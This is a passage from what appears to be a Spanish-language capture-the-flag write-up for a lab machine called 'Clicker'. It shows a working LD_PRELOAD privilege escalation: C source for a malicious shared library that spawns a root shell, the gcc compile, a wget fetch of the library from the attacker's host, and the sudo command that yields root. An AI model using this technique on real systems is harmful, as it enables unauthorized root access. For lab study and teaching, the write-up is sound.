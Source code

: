 Entonces creamos la librería compartida maliciosa.

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
}
```

La compilamos...

```shell
$ gcc -fPIC -shared -nostartfiles -o evil.so evil.c
evil.c: In function ‘_init’:
evil.c:7:9: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |         setuid(0);
      |         ^~~~~~
evil.c:8:9: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |         setgid(0);
      |         ^~~~~~
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/clicker/content]
└──╼ [★]$ ls -la evil.so
-rwxr-xr-x 1 pointedsec pointedsec 14152 ago 13 22:19 evil.so
```

Nos la pasamos a la máquina víctima
```shell
jack@clicker:/tmp$ wget http://10.10.14.85:8081/evil.so
--2024-08-13 18:20:20--  http://10.10.14.85:8081/evil.so
Connecting to 10.10.14.85:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14152 (14K) [application/octet-stream]
Saving to: ‘evil.so’

evil.so                100%[==========================>]  13.82K  --.-KB/s    in 0.04s   

2024-08-13 18:20:20 (371 KB/s) - ‘evil.so’ saved [14152/14152]
```


Y ahora si cargamos nuestra librería compartida maliciosa en memoria del programa 
estableciendo la variable d entorno `LD_PRELOAD`...

```shell
jack@clicker:/tmp$ sudo LD_PRELOAD=/tmp/evil.so /opt/monitor.sh
root@clicker:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Y podríamos leer la flag
```shell
root@clicker:/tmp# cat /root/root.txt
afbf7c61dbdb7fa331...
```
